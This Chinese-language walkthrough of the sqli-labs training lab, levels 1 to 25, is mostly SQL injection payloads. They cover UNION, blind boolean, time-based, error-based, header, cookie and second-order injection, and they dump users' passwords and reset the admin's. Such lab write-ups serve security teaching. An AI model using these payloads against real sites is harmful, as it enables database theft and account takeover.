



## Less-1  基于错误的字符串

+ 首先找到注入点，打开首页提示我们要输入一个ID带数值的参数。
+ 这里我输入id=1就返回下列内容。


+ 因为这网页的标题是基于错误的字符串注入，这里我们尝试在`?id=1'`后面添加一个单引号。
+ 然后就返回了错误消息。


+ 从这里的信息我们可以推断出SQL语句。

```sql
# 这是我们假设的SQL语句。
select * from users where id = '$id' limit 0,1;
```

+ 现在我们就可以构建Payload。
+ 使用下列语句，尝试是否可以注入。

```sql
?id=1' or '
```

+ 结果发现是可以注入SQL语句。


+ 接下来我们需要拆字段数量。这里我们使用`order by `语句查询。

```sql
# --+ 是注释掉后面的 limit 0,1 语句
?id=1' order by 8 --+
```

+ 我们使用二分法来使用8发现报错了。


```sql
# 错误
?id=1' order by 8 --+ 
# 错误
?id=1' order by 4 --+ 
# 正确
?id=1' order by 2 --+ 
# 正确
?id=1' order by 3 --+ 
```

+ 最终发现该查询有三个字段名，假设SQL语句为：

```sql
select id, name, password from users where id = '$id' limit 0, 1;
```

+ 使用`union select`语句尝试这三个字段名，是否在页面显示。

```sql
?id=' union select 1,2,3 --+
```

+ 发现只显示了2和3，1并没有显示出来。


+ 接下来尝试在2和3这里进行注入。

```sql
# 在2的位置获取当前数据库名。
# 在3的位置获取当前数据库用户名。
?id=' union select 1, database(), user() --+
```


+ 这里使用的数据库名为"**security**"，新增我们尝试获取该数据中所有表名。

```sql
# 如果不使用group_concat()函数会导致错误。
?id=' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database()),user() --+
```

+ 这里查出来了`authors,emails,referers,uagents,users`五个表。


+ 使用下列语句查询出某个表中的列名数量，这里我们尝试获取`users`表的列数。

```sql
?id=' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users'),user() --+
```

+ 查询结果了`id,username,password`三个列。


+ 最后查询出表中的所有数据。

```sql
# 如果你不是在靶场环境我不建议你直接查询某个表中的所有数据，建议加上limit语句。
?id=' union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
```


+ 你可以使用上面的语句去获取其他表中的数据。

## Less-2 基于错误的整数

+ 在Less-1中我们已经找到了注入Less-2也是一样。
+ 首先我们假设该查询语句为：

```sql
select column1, column2, column3 from users where id = $id limit 0,1;
```

+ Less-1我们已经把列名和列数量获取到了。
+ 可以使用只有下列payload进行注入：

```sql
?id=0 union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
```


## Less-3  基于错误的字符串（扭曲）

+ 在id后面添加单引号发现出现错误。这里的错误有点区别。

```sql
/Less-1/?id=1'
# 错误
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
/Less-3/?id=1'
# 错误
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```


+ 发现多了`)`括号。我们可以假设该语句为：

```sql
select column1, column2, column3 from users where id = ('$id') limit 0, 1;
```

+ 由于Less-1，我们已经猜出列名和列数量。我们可以执行使用查询`users`表的数据。

```sql
?id=') union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
```


## Less-4 基于错误的双引号字符串

+ 这里提示我们要使用**"**双引号。使用双引号以后就出现了错误。


+ 根据错误信息我们可以推断出该SQL语句为：

```sql
select column1, column2, column3 from where id = ("$id") limit 0, 1;  
```

+ 进过尝试以后我们发现，可以进行注入。现在我们要把数据都用户名和密码都查出来：

```sql
?id=0") union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
```


## Less-5  双查询单引号字符串

+ 首先使用单引号测试出现错误。

```sql
# 错误内容
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''15'' LIMIT 0,1' at line 1
```

+ 根据错误信息可以推断出：

```sql
select column1, column2, column3 from users where id = '$id' limit 1, 0;
```

+ 我们可以使用Less-1的SQL来进行获取数据。

```sql
?id=0
# 没有返回数据。
?id=' union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
# 页面返回
You are in...........
```

+ 首先查询数据的长度：

```sql
# 成功
/?id=1' and 1=if(length((select group_concat(username) from users))>=8,1,0) --+
# 成功
/?id=1' and 1=if(length((select group_concat(username) from users))>=16,1,0) --+
# 成功
/?id=1' and 1=if(length((select group_concat(username) from users))>=32,1,0) --+
# 成功
/?id=1' and 1=if(length((select group_concat(username) from users))>=64,1,0) --+
# 错误
/?id=1' and 1=if(length((select group_concat(username) from users))<=128,1,0) --+
# 错误
/?id=1' and 1=if(length((select group_concat(username) from users))<=96,1,0) --+
# 正确
/?id=1' and 1=if(length((select group_concat(username) from users))<=80,1,0) --+
# 正确
/?id=1' and 1=if(length((select group_concat(username) from users))<=88,1,0) --+
# 错误
/?id=1' and 1=if(length((select group_concat(username) from users))<=92,1,0) --+
# 正确
/?id=1' and 1=if(length((select group_concat(username) from users))<=90,1,0) --+
# 正确
/?id=1' and 1=if(length((select group_concat(username) from users))<=91,1,0) --+
```

+ 使用下列语句查询数据：

```sql
# 查询第一位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='a',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='b',1,0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='d',1,0) --+

# 查询第二位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='a',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='b',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='c',1,0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='u',1,0) --+
```

## Less-6 双查询双引号字符串

+ 首先要找出注入点：

```sql
# 正确
1" and 1=1--+
# 错误
1" and 1=2--+
```

+ 由于Less-6了Less-5注入方式是差不多所以我们就不重复Less-5的步骤直接执行最后的步骤：

```sql
# 查询第一位数据
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='a',1,0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='b',1,0) --+
...
# 正确
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='d',1,0) --+

# 查询第二位数据
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='a',1,0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='b',1,0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='c',1,0) --+
...
# 正确
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='u',1,0) --+
```

## Less-7 转储到outfile

+ 这里题目提醒我们要使用outfile



+ 首先我们尝试使用单引号看看会不会报错。经过测试会出现错误。


+ 这次的错误信息没有给我很好提示，我们只能靠猜（由于我们前面已经知道该查询列数有三个）：

```sql
# 错误
select column1, column2, column3 from users where id = '$id' limit 0,1
# 错误
select column1, column2, column3 from users where id = "$id" limit 0,1
# 错误
select column1, column2, column3 from users where id = ('$id') limit 0,1
# 错误
select column1, column2, column3 from users where id = ("$id") limit 0,1
# 正确
select column1, column2, column3 from users where id = (('$id')) limit 0,1
```

+ 我们可以靠上面猜测的SQL语句使用`outfile`。

```sql
0')) union select id,username,password from users into outfile '/tmp/mysql.txt' --+
```

## Less-8 Boolean单引号字符串

+ 传入id=1，会返回下列数据。


+ 现在我们尝试在id=1后面加单引号，页面就没有返回数据（我们可以大胆猜测没返回数据应该是错误或找不到数据）。


+ 我们可以大胆猜测数据该SQL语句为：

```sql
select column1, column2, column3 from users where id = '$id' limit 1,0;
```

+ 使用**and**尝试是否可以注入。

```sql
# 有返回信息
1' and 1=1 --+
# 没返回信息
1' and 1=2 --+
```

+ 这里我们使用**if()**函数和**substr()**函数进行猜数据。

```sql
# 查询第一位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='a',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='b',1,0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='d',1,0) --+

# 查询第二位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='a',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='b',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='c',1,0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='u',1,0) --+
```

## Less-9 基于时间单引号字符串

+ 首先是猜出SQL语句或者找出注入点：

```sql
# 返回：You are in...........
/?id=1

# 返回：You are in...........
/?id=0

# 返回：You are in...........
/?id=1'

# 返回：You are in...........
/?id=1' --+

# 进过多次尝试发现无论输入什么内容都是显示
# 返回：You are in...........
```

+ 假设SQL语句为：

```sql
select column1, column2, column3 from users where id = '$id' limit 0, 1;
```

+ 尝试使用sleep()函数进行注入：

```sql
?id=0 'union select 1,2, sleep(3) --+
```

+ 发现页面返回花费了3秒多的时间。


+ 现在我们已经成功注入了。我们可以依靠Less-8的方法进行猜出数据。

```sql
# 查询第一位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='a',sleep(3),0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='b',sleep(3),0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='d',sleep(3),0) --+

# 查询第二位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='a',sleep(3),0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='b',sleep(3),0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='c',sleep(3),0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='u',sleep(3),0) --+
```

## Less-10 基于时间双引号字符串

+ 由于这里的SQL语句应该和Less-9区别不大。猜测应该是如下所示：

```sql
select column1, column2, column3 from users where id = "$id" limit 0, 1;
```

+ 直接将Less-9的注入成功的payload拿来使用：

```sql
?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='d',sleep(3),0) --+
```

+ 现在我们已经成功注入了。我们可以依靠Less-8的方法进行猜出数据。

```sql
# 查询第一位数据
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='a',sleep(3),0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='b',sleep(3),0) --+
...
# 正确
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='d',sleep(3),0) --+

# 查询第二位数据
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='a',sleep(3),0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='b',sleep(3),0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='c',sleep(3),0) --+
...
# 正确
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='u',sleep(3),0) --+
```

## Less-11 基于错误的字符串


+ 尝试在username编辑框中输入**'admin**，然后就出现图中的错误。


+ 现在我们可以猜出该SQL语句为：

```sql
select column1, ... from users where username = '$username' and password = '$password' limit 0, 1;
```

+ 接下来我们要完善我们猜测的SQL语句。目前我们只知道` and password = '$password' limit 0, 1;`前面的SQL语句还太清楚。

+ 首先先把`and password = '$password' limit 0, 1`注释掉，然后在注释前面输入payload。

```sql
# 错误
uname='or+1=1+order+by+8--+&passwd=admin&submit=Submit
# 错误
uname='or+1=1+order+by+4--+&passwd=admin&submit=Submit
# 正确
uname='or+1=1+order+by+2--+&passwd=admin&submit=Submit
```

+ 从上面的结果我们发现该查询只有两个字段。
+ 新增查询出当前使用的表是什么名称。

```sql
uname='union+select+database(),((select+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()))--+&passwd=admin&submit=Submit
```


+ 现在获取users表中的所有列名。

```sql
uname='union+select+database(),((select+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()and+table_name+='users'))--+&passwd=admin&submit=Submit
```


+ 现在我们已经知道该SQL语句应该为：

```sql
select username, password from username = '$username' and password = '$password' limit 0, 1;
```

+ 接下来我们就需要获取users表中的所有数据。

```sql
uname='union+select+(select+group_concat(username)+from+users),(select+group_concat(password)+from+users)--+&passwd=admin&submit=Submit
```


## Less-12 基于错误-双引号-字符串

+ 使用`"union+select+1,2--+`payload会出现错误。

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'union select 1,2-- ") and password=("admin") LIMIT 0,1' at line 1
```

+ 然后发现双引号后面有有单引号，使用下列payload成功绕过。

```sql
uname="union+select+1,2--+&passwd=admin&submit=Submit
```

+ 获取所有users表中所有的数据（获取数据库中的所有表和所有列可参照Less-11）。

```sql
uname=")union+select+(select+group_concat(username)+from+users),(select+group_concat(password)+from+users)--+&passwd=admin&submit=Submit
```


## Less-13-双注入字符串带扭转

+ 使用单引号会触发如下错误信息：

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''a'') and password=('') LIMIT 0,1' at line 1
```

+ 我们可以猜测该SQL语句为：

```sql
select column1, column2, ... from users where username = ('$username') and password = ('$password') limit 0, 1;
```

+ 获取users表中的所有数据：

```sql
uname=')union+select+(select+group_concat(username)+from+users),(select+group_concat(password)+from+users)--+&passwd=&submit=Submit
```

+ 发现页面仅返回了一个flag.jpg图片。

+ 接下来我们或利用二分法获取数据：

```sql
# 查询第一位数据
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),1,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),1,1)='b',1,0)--+&passwd=&submit=Submit
...
# 正确
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),1,1)='d',1,0)--+&passwd=&submit=Submit

# 查询第二位数据
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),2,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),2,1)='b',1,0)--+&passwd=&submit=Submit
# 错误
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),2,1)='c',1,0)--+&passwd=&submit=Submit
...
# 正确
uname=admin')and+1=if(substr((select+group_concat(username)+from+users),2,1)='u',1,0)--+&passwd=&submit=Submit
```

## Less-14 双注入双引号字符串

+ 使用双引号后得到如下错误信息：

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '""" and password="" LIMIT 0,1' at line 1
```

+ 由于这里的和Less-13区别不大，根据题目提示将Less-13的单引号替换成双引号：

```sql
# 查询第一位数据
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),1,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),1,1)='b',1,0)--+&passwd=&submit=Submit
...
# 正确
uname="and+1=if(substr((select+group_concat(username)+from+users),1,1)='d',1,0)--+&passwd=&submit=Submit

# 查询第二位数据
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),2,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),2,1)='b',1,0)--+&passwd=&submit=Submit
# 错误
uname="and+1=if(substr((select+group_concat(username)+from+users),2,1)='c',1,0)--+&passwd=&submit=Submit
...
# 正确
uname="and+1=if(substr((select+group_concat(username)+from+users),2,1)='u',1,0)--+&passwd=&submit=Submit
```

## Less-15 基于布尔值的字符串

+ 首先找出注入点。这里我们尝试在文本框中添加单引号。
+ 返回失败的图片。我们再尝试在单引号后面加上`or1=1`然后发现返回成功的图片，我们就可以猜一下该SQL语句。

```sql
select column1, column2 from users where username = '$username' and password = '$password' limit 0, 1;
```

+ 使用下列方法

```sql
# 查询第一位数据
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),1,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),1,1)='b',1,0)--+&passwd=&submit=Submit
...
# 正确
uname='and+1=if(substr((select+group_concat(username)+from+users),1,1)='d',1,0)--+&passwd=&submit=Submit

# 查询第二位数据
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),2,1)='a',1,0)--+&passwd=&submit=Submit
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),2,1)='b',1,0)--+&passwd=&submit=Submit
# 错误
uname='and+1=if(substr((select+group_concat(username)+from+users),2,1)='c',1,0)--+&passwd=&submit=Submit
...
# 正确
uname='and+1=if(substr((select+group_concat(username)+from+users),2,1)='u',1,0)--+&passwd=&submit=Submit
```

## Less-16 基于盲时间的双引号字符串

+ 根据题目提示我们可以假设该SQL语句为：

```sql
select column1, column2 from users where username = "$username" and password = "$password";
```

+ 接下来尝试使用`"or 1=if(1=1,sleep(3),0)--+`，进行注入发现没有延迟效果，应该是我们猜测的SQL语句有问题再次猜测：

```sql
select column1, column2 from users where username=("") and password = ("");
```

+ 尝试使用`")or 1=if(1=1,sleep(3),0)--+`，发现注入成功。接下来尝试使用下列语句：

```sql
# 查询第一位数据
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),1,1)='a',sleep(3),0)--+&passwd=&submit=Submit
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),1,1)='b',sleep(3),0)--+&passwd=&submit=Submit
...
# 正确
uname=")or+1=if(substr((select group_concat(username) from users),1,1)='d',sleep(3),0)--+&passwd=&submit=Submit

# 查询第二位数据
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),2,1)='a',sleep(3),0)--+&passwd=&submit=Submit
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),2,1)='b',sleep(3),0)--+&passwd=&submit=Submit
# 错误
uname=")or+1=if(substr((select group_concat(username) from users),2,1)='c',sleep(3),0)--+&passwd=&submit=Submit
...
# 正确
uname=")or+1=if(substr((select group_concat(username) from users),2,1)='u',sleep(3),0)--+&passwd=&submit=Submit
```

## Less-17 更新查询基于错误字符串

+ 假设该更新语句为：

```sql
update table set password = '$password' where username = '$username' limit 0, 1;
```

+ 根据上面猜测的语句无法进行注入。然后我就憋住去看了一下源代码。发现username进行过滤了，没办法注入然后我就打算在password中进行注入。

```sql
uname=admin&passwd=123456'+where+1=exp(~(select+*+from+(select+group_concat(table_name)+from+information_schema.tables+where+table_schema=database())a))--+&submit=Submit
```

+ 这里我们利用报错注入来获取数据。


## Less-18 标头注入基于错误字符串

+ 首先我这里输入了正确的信息，页面会返回User-Agent。然后根据题目提示注入点在header头，返回根据页面的user-agent，可以推断出应该是在user-agent存在注入点。


+ 在user-agent单引号以后出现错误。我们可以推断这是保存用户登录的SQL语句。

```sql
insert into table (..., `user-agent`, `ip`, `username`) values (..., 'user-agent', 'ip', 'username');
```

+ 因为这里是使用插入语句我们应该使用报错注入。

```sql
bbb','123131',exp(~(select * from (select group_concat(table_name) from information_schema.tables where table_schema=database())a)))-- '
```


## Less-19 标头注入Referer基于错误的字符串

+ 根据题目提示，我们可以从Referer进行注入。尝试在Referer值设置为单引号，会出现下列错误。


+ 根据错误提示，我们可以推断出该语句为：

```sql
insert into table (..., `referer`, `ip`) values (..., 'referer', 'ip')
```

+ 使用下列语句进行注入：

```sql
123',exp(~(select * from (select group_concat(table_name) from information_schema.tables where table_schema=database())a)))-- '
```


## Less-20 Cookie注入基于错误字符串

+ 根据题目提示我们要先登录账号后才可以使用cookie来获取用户信息。


+ 使用BurpSuite抓登录完成的包，然后修改Cookie中的值在后面加上单引号。


+ 根据错误信息我们可以推断出该语句为：

```sql
select column1, ... from table where cookie = '$cookie' limit 0, 1;
```

+ 使用`Cookie: uname=' or 1=1 --+`，发现注册成功然后使用`order by`关键字猜字段。
+ 已经找到注入点了可以参考Less-1的解法。

````sql
Cookie: uname=' union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
````


## Less-21 Cookie注入基于字符串错误-复杂

+ 这里和Less-20一样需要登录。登录成功后我们可以在BurpSuite中查看请求的数据包。这里发现返回的Cookie给加密了，在BurpSuite可以查看到明文。


+ 可以在右侧看到这里使用了URL和Base64进行加密。接下来我们就使用`ctrl+r`快捷键打开Repeater`功能。

+ 然后我们将Cookie中的`uname`的值改为`YWRtaW4n`。然后发送会出现下面的错误。


+ 这里我们可以猜测该SQL语句可能为：

```sql
select column1, column2, ... form table where cookie = ('$cookie') limit 0, 1;
```

+ 现在我们就要开始构造payload进行攻击了。

```sql
YWRtaW4nKSAtLSA=
# 上面内容不懂是什么可以看右侧。解密后的数据。
```


+ 接下来把Less-20的payload改一下就可以了。

```sql
JykgdW5pb24gc2VsZWN0IDEsKHNlbGVjdCBncm91cF9jb25jYXQodXNlcm5hbWUpIGZyb20gdXNlcnMpLChzZWxlY3QgZ3JvdXBfY29uY2F0KHBhc3N3b3JkKSBmcm9tIHVzZXJzKSAtLSA=
```


+ 注意这里最后不能使用`--+`而是使用`-- `如果不使用空格会无法进行注入。

## Less-22 Cookie注入-基于字符串错误-双引号

+ 这题第一步和Less-20和Less-21一样。登录后的响应包和Less-21一样都进行加密处理，解密方式和Less-21一样。根据提示的提示这里我将Less-21的单引号替换成双引号。

```sql
YWRtaW4i
```


+ 根据错误信息我们可以尝试推断出该SQL语句。

```sql
select column1, ... from table where cookie = "$cookie" limit 0, 1;
```

+ 接下来开始构造payload进行注入。

```sql
YWRtaW4iIGFuZCAxPTEgLS0g
```



+ 注入成功，接下来我们获取所有用户数据。这里我们可以从Less-21的payload修改一下。

```sql
IiB1bmlvbiBzZWxlY3QgMSwoc2VsZWN0IGdyb3VwX2NvbmNhdCh1c2VybmFtZSkgZnJvbSB1c2VycyksKHNlbGVjdCBncm91cF9jb25jYXQocGFzc3dvcmQpIGZyb20gdXNlcnMpIC0tIA==
```


## Less-23 基于错误-无评论

+ 打开页面提示我们需要传入id，这里我传入了id的值为1可以正常返回页面。尝试在1后面添加单引号就出现了错误。

```sql
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

+ 我们可以从错误信息推断出该SQL语句为：

```sql
select column1, column2, ... form table where id = '$id' limit 0,1;
```

+ 经过测试发现以前的方法都无法使用，这时候我们就需要打开源代码查看。


+ 代码对我们的payload进行了处理。这里不能使用MySQL的注释。我们可以使用闭合SQL语句。

```sql
# 正常返回数据
?id=1'+and+'1'='1
# 返回空数据
?id=1'+and+'2'='1
```

+ 猜字段，因为不能使用`order by`关键字，我们就只能使用`union select null,...`语句来猜测数据。

```sql
# 我们可以发现返回的数据中只有两个地方会进行变化，我们就可以先从两个null开始。
?id='+union+select+null,null' # The used SELECT statements have a different number of columns
?id='+union+select+null,null,null' # 正确
```

+ 接下来我们就需要获取所有数据。

```sql
?id='union+select+1,(select+group_concat(username)+from+users),(select+group_concat(password)+from+users)'
```


## Less-24 二级注射

+ 打开题目页面会返回一个登录表单，我们尝试使用`admin`账号进行登录，登录后会进入一个修改密码页面。
+ 在登录页面测试以后发现有过滤规则，这时候我们就需要使用查看源代码。
+ 在该题目目录下发现有下列文件：

```bash
root@6220105599eb:/var/www/html/Less-24# ls -l
total 36
-rwxr-xr-x 1 root root  242 Dec 16  2015 Logged-in.php
-rwxr-xr-x 1 root root  530 Dec 16  2015 failed.php
-rwxr-xr-x 1 root root  390 Dec 16  2015 forgot_password.php
-rwxr-xr-x 1 root root 1678 Dec 16  2015 index.php
-rwxr-xr-x 1 root root 1774 Dec 16  2015 logged-in.php
-rwxr-xr-x 1 root root 1261 Dec 16  2015 login.php
-rwxr-xr-x 1 root root 1955 Dec 16  2015 login_create.php
-rwxr-xr-x 1 root root 1736 Dec 16  2015 new_user.php
-rwxr-xr-x 1 root root 1571 Dec 16  2015 pass_change.php
```

+ 查看所有文件以后该页面的流程如下：


+ 查看代码后发现`pass_change.php`文件`username`没有使用过滤函数，其他文件都有使用过滤函数。


+ 查看该题目的所有代码以后我发现我们没有办法获取所有数据，只可以修改信息。
+ 我们可以尝试在这里进行注入，现在遇到一个问题我们要如何修改SESSION。
    + 这里我们可以通过创建新用户执行我们设置的SQL语句。
    + 这里我们创建了一个用户名：`-- `的用户。
    + 下一步我们就需要使用该用户进行登录，登录后我们就需要去修改该用户密码，因为这里的username没有使用过滤函数。
    + 提交后会出现下列错误页面。


+ 根据该错误页面我们可以断定我们注入成功。
+ 接下来我们需要使用修改SESSON。
    + 首先创建一个payload的用户。如：`admin ' #'`。这个payload是修改admin密码。
    + 创建新用户以后我们进行修改密码。
    + 修改成功以后我们就可以登录admin账号。

## Less-25 用OR&amp;AND欺骗

+ 根据页面提示在链接添加一个属性和值：id=1。正常返回数据。

+ 判断该SQL语句的类型。

    + 使用在id值后面添加单引号。
    + 出现错误信息，可以推断出该SQL语句为字符串类型。

+ 猜测该SQL语句。

    + 首先使用`order by`猜测该字段的数量，输入以后发生了错误。

  

    + 导致错误的原因是因为`order by`包含了`or`所以给过滤了。

        + 我们可以使用双重`or`进行绕过。

      ```sql
      # 注意-- 后面的空格。
      1' order by 3 -- 
      ```

      

+ 根据目前得到的数据我们可以推断出该SQL语句为：

```sql
select column1, column2, column3 form table where id = '$id' limit 0,1;
```

+ 接下来我们需要获取所有的数据（查询该数据库中的所有表和所有列这里就不进行演示了）。

```sql
0' union select 1,(select group_concat(username) from users),(select group_concat(passwoorrd) from users) --
```


## Less-25a 用OR&amp;AND欺骗

